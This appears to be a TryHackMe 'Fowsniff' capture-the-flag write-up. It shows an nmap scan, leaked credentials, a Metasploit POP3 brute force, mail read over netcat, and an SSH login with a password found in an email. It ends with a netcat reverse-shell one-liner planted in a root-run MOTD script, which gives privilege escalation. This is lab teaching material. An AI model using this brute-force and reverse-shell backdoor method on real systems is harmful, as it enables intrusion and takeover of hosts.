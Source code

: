 # TryHackMe-Fowsniff

## NMAP

```
Nmap scan report for 10.10.47.52
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: CAPA UIDL TOP SASL(PLAIN) PIPELINING AUTH-RESP-CODE RESP-CODES USER
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: OK listed more SASL-IR have post-login LOGIN-REFERRALS AUTH=PLAINA0001 LITERAL+ capabilities IDLE ENABLE IMAP4rev1 ID Pre-login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.12 seconds

```

On the webpage there is a breach of company so we may get thier hacked twitter account 

`https://twitter.com/fowsniffcorp?lang=en`

On the pastebin we can find a list of possible passwords or user name accounts

`https://pastebin.com/NrAqVeeX`


Users 

```
mauer@fowsniff
mustikka@fowsniff
tegel@fowsniff
baksteen@fowsniff
seina@fowsniff
stone@fowsniff
mursten@fowsniff
parede@fowsniff
sciana@fowsniff
```

Passwords of Md5

```
mailcall
bilbo101
apples01
skyler22
scoobydoo2
carp4ever
orlando12
07011972
```

## Metasploit

```
msf5 auxiliary(scanner/pop3/pop3_login) > run

[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:mailcall', '-ERR [AUTH] Authentication failed.'
[!] 10.10.47.52:110       - No active DB -- Credential data will not be saved!
[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:apples01', '-ERR [AUTH] Authentication failed.'
[-] 10.10.47.52:110       - 10.10.47.52:110 - Failed: 'seina:skyler22', ''
[+] 10.10.47.52:110       - 10.10.47.52:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[*] 10.10.47.52:110       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
`scoobydoo2`


## POP3 

Now to use pop3 which is email protocol through command line

`nc 10.10.47.52 110`

This will connect to protocol

```
USER seina
PASS scoobydoo2
```

There are two mails
```
root@kali:~# nc 10.10.47.52 110
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
STAT
+OK 2 2902
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR
-ERR Invalid message number: 
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
.
```

```
OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

.


```

We can ssh into box with username `baksteen` password `S1ck3nBluff+secureshell`



## SSH

After logging with SSH we are in and now let's find some files

```
baksteen@fowsniff:/$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
baksteen@fowsniff:/$ find / -group users 2>/dev/null
/opt/cube/cube.sh
/run/user/1004
/run/user/1004/systemd
/run/user/1004/systemd/private
/run/user/1004/systemd/notify
/home/baksteen/.cache
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir
/home/baksteen/Maildir/tmp
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log

```

Here we can see cube.sh

nano cube.sh and paste it in 
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.94.60 5555 >/tmp/f`

start nc listener nc -lvp 5555

Logout from the machine and log in back since it's a message of the day file it will run as root when you login to display message and your listener will capture it.
